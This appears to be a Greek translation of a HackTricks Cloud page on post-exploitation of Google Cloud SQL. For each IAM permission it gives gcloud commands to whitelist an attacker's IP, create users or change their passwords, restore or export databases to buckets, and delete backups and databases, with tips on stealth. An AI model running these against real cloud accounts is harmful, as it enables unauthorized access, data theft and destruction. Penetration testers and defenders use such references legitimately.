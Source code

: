 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Για περισσότερες πληροφορίες σχετικά με το Cloud SQL, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Για να συνδεθείτε στις βάσεις δεδομένων, **χρειάζεστε μόνο πρόσβαση στην πόρτα της βάσης δεδομένων** και να γνωρίζετε το **όνομα χρήστη** και τον **κωδικό πρόσβασης**, δεν υπάρχουν απαιτήσεις IAM. Ένας εύκολος τρόπος για να αποκτήσετε πρόσβαση, υποθέτοντας ότι η βάση δεδομένων έχει δημόσια διεύθυνση IP, είναι να ενημερώσετε τα επιτρεπόμενα δίκτυα και **να επιτρέψετε τη δική σας διεύθυνση IP να έχει πρόσβαση σε αυτήν**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Είναι επίσης δυνατό να χρησιμοποιήσετε **`--no-backup`** για να **διαταράξετε τα αντίγραφα ασφαλείας** της βάσης δεδομένων.

Δεδομένου ότι αυτές είναι οι απαιτήσεις, δεν είμαι εντελώς σίγουρος ποια είναι τα δικαιώματα **`cloudsql.instances.connect`** και **`cloudsql.instances.login`**. Αν το ξέρετε, στείλτε μια PR!

### `cloudsql.users.list`

Λάβετε μια **λίστα με όλους τους χρήστες** της βάσης δεδομένων:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Αυτή η άδεια επιτρέπει να **δημιουργηθεί ένας νέος χρήστης μέσα** στη βάση δεδομένων:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Αυτή η άδεια επιτρέπει να **ενημερώσετε τον χρήστη** μέσα στη βάση δεδομένων. Για παράδειγμα, μπορείτε να αλλάξετε τον κωδικό πρόσβασής του:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Τα αντίγραφα ασφαλείας μπορεί να περιέχουν **παλιές ευαίσθητες πληροφορίες**, οπότε είναι ενδιαφέρον να τα ελέγξετε.\
**Ανακτήστε ένα αντίγραφο ασφαλείας** μέσα σε μια βάση δεδομένων:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Για να το κάνετε με πιο διακριτικό τρόπο, συνιστάται να δημιουργήσετε μια νέα SQL instance και να ανακτήσετε τα δεδομένα εκεί αντί για τις τρέχουσες βάσεις δεδομένων.

### `cloudsql.backupRuns.delete`

Αυτή η άδεια επιτρέπει τη διαγραφή αντιγράφων ασφαλείας:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Εξαγωγή μιας βάσης δεδομένων** σε ένα Cloud Storage Bucket ώστε να μπορείτε να έχετε πρόσβαση σε αυτήν από εκεί:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Εισαγωγή μιας βάσης δεδομένων** (επικαλύπτει) από ένα Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Διαγράψτε μια βάση δεδομένων από την db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

